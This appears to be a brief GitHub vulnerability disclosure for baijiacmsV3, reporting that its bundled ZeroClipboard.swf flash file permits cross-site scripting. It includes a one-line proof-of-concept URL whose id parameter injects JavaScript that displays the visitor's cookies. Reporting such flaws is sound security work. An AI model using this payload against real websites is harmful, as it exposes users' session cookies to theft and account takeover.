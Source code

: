 # baijiacmsV3withxss
BaijiacmsV3 does not open the issue

baijiacmsV3 :https://github.com/baijiacms/baijiacmsV3

The ZeroClipboard library provides an easy way to copy text to the clipboard using an invisible Adobe Flash movie and a JavaScript interface may allow an attacker to execute arbitrary Javascript code.

poc: http://172.16.100.15/baijiacmsV3-master/themes/Default/__RESOURCE__/script/ZeroClipboard.swf?id=\%22))}catch(e){}if(!self.a)self.a=!prompt(document.cookie)//&width&height

